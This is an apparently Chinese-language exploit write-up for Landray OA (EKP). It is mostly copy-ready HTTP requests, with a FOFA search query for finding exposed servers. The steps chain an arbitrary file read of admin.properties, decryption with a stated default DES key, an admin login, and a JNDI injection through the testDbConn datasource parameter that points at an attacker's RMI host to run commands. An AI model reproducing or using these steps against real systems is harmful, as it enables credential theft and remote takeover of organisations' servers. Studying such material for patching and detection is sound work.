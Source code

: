 # 蓝凌OA admin.do JNDI远程命令执行

## 漏洞描述

深圳市蓝凌软件股份有限公司数字OA(EKP)存在任意文件读取漏洞。攻击者可利用漏洞获取敏感信息，读取配置文件得到密钥后访问 admin.do 即可利用 JNDI远程命令执行获取权限

## 漏洞影响

- 蓝凌OA

## FOFA

- app="Landray-OA系统"

## 漏洞复现

利用 **蓝凌OA custom.jsp 任意文件读取漏洞** 读取配置文件

```plain
/WEB-INF/KmssConfig/admin.properties
```

发送请求包

```plain
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 60
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}
```

![1](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090125006.png)

获取password后，使用 DES方法 解密，默认密钥为 **kmssAdminKey**

![2](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090125061.png)

访问后台地址使用解密的密码登录

```plain
http://xxx.xxx.xxx.xxx/admin.do
```

![3](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090126340.png)

使用工具执行命令

https://github.com/welk1n/JNDI-Injection-Exploit

```plain
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

运行工具监听端口 ping dnslog测试 命令执行 (蓝凌OA 默认使用的是 JDK 1.7)

```plain
POST /admin.do HTTP/1.1
Host: 
Cookie: JSESSIONID=90EA764774514A566C480E9726BB3D3F; Hm_lvt_9838edd365000f753ebfdc508bf832d3=1620456866; Hm_lpvt_9838edd365000f753ebfdc508bf832d3=1620459967
Content-Length: 70
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Origin: 
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

method=testDbConn&datasource=rmi://xxx.xxx.xxx.xxx:1099/cbdsdg
```

![4](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090126051.png)